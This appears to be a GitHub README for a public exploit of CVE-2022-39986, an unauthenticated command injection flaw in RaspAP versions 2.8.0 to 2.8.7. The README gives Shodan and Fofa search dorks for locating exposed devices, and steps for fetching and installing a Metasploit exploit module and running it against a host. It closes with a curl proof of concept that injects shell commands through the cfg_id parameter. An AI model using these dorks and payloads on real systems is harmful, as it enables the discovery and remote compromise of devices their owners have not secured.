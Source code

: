 # CVE-2022-39986
![](https://img.shields.io/static/v1?label=Product&message=RaspAP&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=2.8.0%20thru%202.8.7&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Command%20Injection&color=red)

- Shodan dork:
```
"RaspAP"
```
```
Raspbian WIFI
```
```
http.favicon.hash:316853479
```
- Fofa dork:
```
icon_hash="316853479"
```
### Install
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/RaspAp_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rb /usr/share/metasploit-framework/modules/exploits/unix/http/
```
### Usage
```
msfdb reinit; msfconsole -q
```
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check
```
### Curl PoC
```
curl -X POST -d 'cfg_id=;id;uname+-a;#' http://TARGET/ajax/openvpn/del_ovpncfg.php -w '\n'
```
